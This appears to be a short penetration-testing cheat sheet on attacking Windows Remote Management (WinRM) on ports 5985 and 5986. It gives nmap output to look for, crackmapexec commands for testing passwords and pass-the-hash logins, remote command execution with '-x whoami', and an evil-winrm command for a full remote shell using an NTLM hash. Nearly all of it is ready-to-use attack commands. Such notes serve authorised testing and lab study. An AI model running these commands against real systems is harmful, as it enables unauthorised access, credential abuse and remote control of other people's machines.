 # WinRM/5985 - 5986

**We look for**&#x20;

```bash
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5986/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0
```

**Check WinRM Authentication Options**

```bash
crackmapexec winrm <target> -u <user> -p <pass>    
```

```bash
crackmapexec winrm <target> -u <user> -H <ntlm_hash>
```

🧠 Summary

| Task           | Tool       | Command                                          |
| -------------- | ---------- | ------------------------------------------------ |
| Port scan      | nmap       | `nmap -p 5985,5986 -sV <target>`                 |
| Test login     | CME        | `cme winrm <target> -u user -H hash`             |
| Remote command | CME        | `cme winrm <target> -u user -H hash -x "whoami"` |
| Full shell     | evil-winrm | `evil-winrm -i <target> -u user -H hash`         |
